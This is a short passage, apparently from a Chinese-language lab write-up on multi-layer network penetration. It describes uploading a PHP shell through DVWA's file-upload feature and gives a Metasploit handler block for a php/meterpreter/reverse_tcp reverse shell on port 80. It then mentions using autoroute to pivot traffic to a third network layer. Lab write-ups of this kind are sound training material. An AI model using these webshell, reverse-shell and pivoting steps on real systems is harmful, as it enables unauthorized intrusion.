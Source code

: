 ![image-20221226171130629](../../images//image-20221226171130629.png)



随后利用二层网络的dvwa中的文件上传功能，上传phpshell即可反弹回shell。

```
use exploit/multi/handler
set payload php/meterpreter/reverse_tcp
set lport 80
exploit
```

![image-20221226171428994](../../images//image-20221226171428994.png)

而后通过autoroute建立路由信息即可将流量传递至第三层。

![image-20221226171703121](../../images//image-20221226171703121.png)

